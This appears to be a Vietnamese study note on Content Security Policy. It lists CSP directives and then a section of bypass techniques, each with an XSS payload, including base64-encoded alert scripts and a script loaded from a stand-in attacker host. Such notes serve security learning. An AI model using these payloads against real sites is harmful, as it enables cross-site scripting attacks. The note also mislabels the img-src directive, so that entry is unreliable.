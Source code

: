 
# Content Security Policy
# I.Tổng quan.
## 1. khái niệm CSP.
- Content Security Policy (CSP) là biện pháp bảo mật thiết yếu để bảo vệ các ứng dụng web khỏi một số loại tấn công nhất định. Bằng cách xác định các quy tắc nghiêm ngặt về tài nguyên mà trình duyệt có thể tải, CSP hạn chế các vectơ tấn công tiềm ẩn.
- Content Security Policy (CSP) biện pháp bảo vệ bổ sung giúp phát hiện và hạn chế một số cuộc tấn công từ phía máy khách, chẳng hạn như Cross Site Scripting (XSS) , clickjacking và chèn nội dung.
## 2.hoạt động CSP.

## 3.Một số chính sách của CSP.

### Các chỉ thị này xác định các nguồn được ủy quyền cho các tài nguyên HTML khác nhau.

- ```default-src```  Nguồn mặc định nếu không có chỉ thị nào khác được xác định.
- ```script-src```  Nguồn hợp lệ cho các tập lệnh JavaScript và WebAssembly.
- ```script-src-elem```  Nguồn hợp lệ cho ```<script>```thẻ. Nếu không có, script-srcsẽ được sử dụng.
- ```frame-src``` Nguồn hợp lệ cho ```<frame>```và ```<iframe>```.
- ```img-src```  Nguồn hợp lệ cho ```<object>```, ```<embed>```và ```<applet>```.
- ```style-src```  Nguồn hợp lệ cho bảng định kiểu.
- ```font-src```  Nguồn phông chữ hợp lệ

### Một số chỉ thị không liên quan đến việc khôi phục tài nguyên nhưng bổ sung thêm các biện pháp kiểm soát bảo mật

- sandbox : Kích hoạt một hộp cát để cô lập nội dung nhất định (như đối với ```<iframe>```).
- require-trusted-types-for : Áp dụng 'các loại đáng tin cậy' để hạn chế các cuộc tấn công XSS dựa trên DOM .
- trusted-types : Xác định danh sách trắng 'Loại đáng tin cậy' để ngăn chặn việc thực thi dữ liệu giả mạo.
- upgrade-insecure-requests : Tự động chuyển đổi yêu cầu HTTP sang HTTPS. Hữu ích cho việc hiện đại hóa một trang web có nhiều URL cũ.
- frame-ancestors : Hạn chế các nguồn được phép cho các phần tử ```<frame>```, ```<iframe>```, ```<object>```, ```<embed>``` và ```<applet>```
- form-action : Kiểm soát các URL được phép gửi biểu mẫu.
- base-uri : Hạn chế các nguồn hợp lệ cho ```<base>``` thẻ.

## 4.bỏ qua các chính sách CSP.
- Xác thực JavaScript không an toàn trong dòng : ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';```
  + payload :  ```<script>alert(1);</script>```
- Ủy quyền đánh giá không an toàn :  ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:; ```
 + payload :  ``` <script src="data:;base64, YWxlcnQoMSk="></script>```
- Sử dụng ký tự đại diện trong script-src :  ```Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *; ```
  + payload :  ``` <script src="https://evil.vaadata.at"></script>  ```
                 ```<script src="data:;base64, YWxlcnQoMSk="></script> ```
- Không có chỉ thị object-src và default-src :  ```Content-Security-Policy: script-src ‘self’; img-src ‘self’; img-src 'self’;```
  + payload : ```<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>```
- Khai thác điểm cuối JSONP được ủy quyền :
- 
  **```Content-Security-Policy: default-src 'none';```
  ```script-src https://hello.vaadata.com/test.js ```
```https://accounts.google.com/o/oauth2/revoke;```**
- Bỏ qua CSP thông qua việc tải tệp lên : ```Content-Security-Policy: default-src 'self'```
  + payload : ```<script src="/upload/evil-script.js"></script>```
